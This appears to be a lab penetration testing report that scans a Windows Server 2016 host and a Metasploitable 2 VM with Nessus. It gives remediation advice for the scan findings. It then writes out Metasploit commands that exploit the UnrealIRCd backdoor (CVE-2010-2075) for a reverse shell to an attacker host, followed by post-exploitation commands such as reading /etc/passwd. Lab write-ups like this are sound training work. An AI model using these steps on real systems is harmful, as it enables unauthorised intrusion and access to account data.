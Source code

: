 # Vulnerability Assessment and Penetration Testing Report

## Introduction
This report details the vulnerability assessment and penetration testing performed on two environments: a Windows Server 2016 instance and a Metasploitable 2 virtual machine. The objective of this assessment was to identify and exploit security vulnerabilities using Nessus and Metasploit, respectively.

## Methodology
The assessment was conducted using the following tools:
- **Nessus**: For vulnerability scanning and assessment.
- **Metasploit**: For exploitation of identified vulnerabilities.

The steps followed during the assessment include:
1. Setting up the target environments (Windows Server 2016 and Metasploitable 2).
2. Performing vulnerability scans using Nessus.
3. Analyzing the scan results to identify potential vulnerabilities.
4. Attempting to exploit identified vulnerabilities using Metasploit.

## Windows Server 2016 Findings
### Vulnerability Scan Results
The Nessus scan on the Windows Server 2016 instance revealed several vulnerabilities. However, none were classified as critical. The notable findings include:

1. **SMB Signing not required**
   - **Description**: Signing is not required on the remote SMB server. This can allow an unauthenticated, remote attacker to conduct man-in-the-middle attacks against the SMB server.
   - **Solution**: Enforce message signing in the host's configuration. On Windows, this is found in the policy setting 'Microsoft network server: Digitally sign communications (always)'.

2. **ICMP Timestamp Response**
   - **Description**: The remote host answers to an ICMP timestamp request. This allows an attacker to know the date set on the targeted machine, which may assist in defeating time-based authentication protocols.
   - **Solution**: Filter out the ICMP timestamp requests (13), and the outgoing ICMP timestamp replies (14).

### Recommendations
1. **SMB Signing**
   - Enforce SMB message signing to prevent man-in-the-middle attacks.
2. **ICMP Timestamp**
   - Filter ICMP timestamp requests and replies to avoid potential information disclosure.

## Metasploitable 2 Findings
### Vulnerability Scan Results
The Nessus scan on the Metasploitable 2 virtual machine revealed multiple critical vulnerabilities. One such vulnerability was exploited using Metasploit.

### Exploitation Process
1. **UnrealIRCD 3.2.8.1 Backdoor Command Execution (CVE-2010-2075)**
   - **Description**: UnrealIRCd 3.2.8.1 contains a backdoor that allows remote command execution.
   - **Exploit Steps**:
     ```bash
     msfconsole
     search unreal_ircd
     use exploit/unix/irc/unreal_ircd_3281_backdoor
     set RHOST <192.168.74.129>
     set payload cmd/unix/reverse
     set LHOST <192.168.74.131>
     set LPORT 4444
     exploit
     ```
   - **Outcome**: Successful exploitation resulted in a command shell session.
     ```bash
     Command shell session 1 opened (192.168.74.131:4444 -> 192.168.74.129:46823)
     ```

### Post-Exploitation Steps
- **Verify Access**:
  ```bash
  Whoami
**Gather System Information**:
 uname -a
 hostname
 ifconfig
**Enumerate Users and Groups**:
 cat /etc/passwd
 cat /etc/group
**Check for Network Connections**:
netstat -tulnp
**Identify Installed Software**:
 dpkg -l
 ```
